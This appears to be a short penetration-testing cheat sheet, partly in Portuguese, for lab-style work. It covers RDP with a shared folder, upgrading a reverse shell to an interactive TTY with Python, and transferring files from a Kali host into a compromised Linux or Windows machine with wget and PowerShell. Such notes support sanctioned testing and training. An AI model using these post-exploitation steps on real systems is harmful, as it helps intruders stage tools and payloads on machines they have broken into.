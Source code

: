 ### RDP

For windows with share and 85% screen

```
rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10
```








### Linux

binaries Path

```
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/
```

###  Interactive Shell

Arrumando interactive TTY using Python

```shell
# Enter while in reverse shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo; fg


# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

```




### File Transfer

#### HTTP

The most common le transfer method.

```shell
# In Kali
python -m SimpleHTTPServer 80

# In reverse shell - Linux
wget 10.10.10.10/file

# In reverse shell - Windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe','C:\Users\user\Desktop\file.exe')"
```